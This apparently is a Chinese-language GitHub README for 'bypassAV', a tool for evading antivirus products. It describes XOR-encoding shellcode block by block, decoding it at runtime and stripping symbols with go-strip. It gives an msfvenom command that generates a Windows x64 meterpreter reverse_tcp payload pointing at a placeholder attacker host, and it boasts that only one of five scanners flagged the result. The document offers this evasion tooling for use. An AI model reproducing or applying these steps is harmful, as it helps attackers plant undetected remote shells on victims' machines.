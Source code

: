 # bypassAV
## 简介
~~v1.0:破产版免杀，大致思路是将shellcode异或，之后在主程序中解码。
关键是清除一些符号信息，采用boy-hack大佬的go-strip~~(6天)
v1.1:1.0的异或改为分块异或（详见代码）
## 使用方法
msf或者cs生成c#格式的shellcode，粘贴到xor.py的buf当中

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -f csharp
$ python3 xor.py
```

## 免杀效果
5个被查杀了一个
![](scan.png)
![](msf.png)
# Reference 
https://github.com/boy-hack/go-strip
